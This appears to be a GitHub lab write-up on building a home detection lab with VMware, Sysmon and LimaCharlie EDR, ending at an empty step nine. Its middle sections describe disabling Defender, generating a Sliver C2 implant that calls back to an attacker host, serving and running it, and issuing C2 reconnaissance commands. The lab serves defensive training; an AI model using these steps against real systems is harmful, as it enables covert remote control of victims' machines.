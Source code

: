 # End Point Detection and Response with VMware and LimaCharlie


## Introduction

For this Lab I created a simple virtual envrionment using two VMware virtual machines and LimaCharlie end point detection and response (EDR). I added a sensore to ingest log data from our target VM, dropped a C2 payload created with Sliver, observed telemetry from the EDR, detected adversarial movements, and crafted detection and response rules.


## Architecture

The architecture of this lab consists of the following components:

- Windows 11 Virtual Machine (VMware)
- Ubuntu Server Virtual Machine (VMware)
- PuTTY SSH Client
- LimaCharlie End Point Detection and Response
- Sysmon


## Set up the virtual environment

1. Download and install VMware Workstation Pro 17.
    - I chose to buy the Pro version instead of the free trial since I plan on utilizing it a lot more in the future
2. Download and deploy a VMware evalustion version of Windows 11 from Microsoft.
3. Download and install Ubuntu Server 22.04.1
    - This specific versio of Ubuntu comes with the necessary packages preinstalled.
    - During the install process manually set the ipv4 address of the Ubuntu server so the IP address doesn't change during the lab
4. Set up the Windows VM
    - Disable Tamper Protection
    - Permanently disable Defender via the Group Policy Editor
    - Permanently disable Defender via Registry
    - Prevent the VM from going into standby via command prompt
      ![Disable Standby](https://i.imgur.com/zRszk5m.png)
    - Install Sysmon
    - Validate Sysmon is installed and running via Powershell with Get-Service sysmon64
      ![Validate](https://i.imgur.com/A2hozsA.png)
    - Check for presence of Sysmon Event logs
      ![Event Logs](https://i.imgur.com/VTBPH23.png)
    - Create a snapshot of the Winows VM to return to a clean point
5. Install LimaCharlie EDR on Windows VM
    - Create a free account with LimaCharlie and then create an organization with the Extended Detection and Response Standard template
    - Add a sensor. These are the primary input for data into LimaCharlie
      ![Add Sensor](https://i.imgur.com/ao00dka.png)
    - Download the sensore with Invoke-WebRequest in Powershell then install the sensor on our Endpoint via the Command Prompt.
      ![Add Sensor](https://i.imgur.com/vGFOpHH.png)
    - The new sensor is confirmed to be reporting in at this point.
    - Now we need to configure LimaCharlie to ship the Sysmon Event Logs along with its own telemetry
6. Set up the Attack System (Our Ubuntu Server)
    - Use PuTTY to access our Ubuntu VM through SSH
    - Move to root with "sudo su" command
    - Download Sliver command and control framework
    - Create a working directory for Sliver with mkdir command (mkdir -p /opt/sliver).
    - Once Sliver is installed into our new directory we can move to it and launch Sliver
    - Generate our payload once inside of Sliver with this command line "generate --http [Linux_VM_IP] --save /opt/sliver"
      ![Sliver](https://i.imgur.com/QSA7EuP.png)
    - Create a temporary web server with python (python3 -m http.server 80), then downlaod the payload on the Windows machine via Powershell
7. Start a Command and Control Session
    - After relaunching Sliver start an http listener in the console with the command "http"
    - Back on the Wndows VM I will just manually execute our C2 implant.exe within an administrative Powershell
    - We should see our C2 session appear in the Sliver console
      ![Sliver](https://i.imgur.com/9WzEhqH.png)
    - Typing "session" into the Sliver console we can take note of our session ID as well as confirm it's active
    - Next we can interact with our C2 session by using the command "use [session_id]" in the Sliver console
    - Now we can start exploring our windows system with some simple commands like "info", "whoami", and "getprivs", then identify our working directory with "pwd" and examine network conncetions with "netstat"
    - If we run the command "ps -t" we can view running processes on the Windows system and note how Sliver will highlight it's own processes in green and detect defensive tools in red. This is a good example of how attackers can become aware of defensive tools a victim might be using
      ![Sliver](https://i.imgur.com/9qPc4Km.png)
8. Observer EDR Telemetry thus far
    - Now we can hop into the LimaCharlie UI and check out some of the telemetry that has been collected from our end point
    - First look at some processes and spend some time exploring. Take note that LimaCharlie does a nice job of showing processes that are signed and ones that are not. A process that carries a valid signature is often going to be benign itself, although legitimate processes can be used to launch a malicious process or code. Below shows our payload as an unsigned processs (missing the green check) as well as an indicator that it is "listening".
       ![Sliver](https://i.imgur.com/cKMLdR0.png)
    - We can also view network connections from here and identify the destination IP this our payload process is communicating with
      ![Network Connection](https://i.imgur.com/rwyIODK.png)
    - Next we can explore the File System through Lima and find our payload in the downloads section. From there we can search the file hash in Virustotal although there is nothing found as we just created a new payload. This is a good time for a lesson, just because a hash is not found on Virustotal it does not mean that it is innocent.
    - We continue to explore through LimaCharlie and learn what it can show us and how we can further use the information to investigate as well as start to build detection and response.
9. 
    
      
      
      
      
      
   





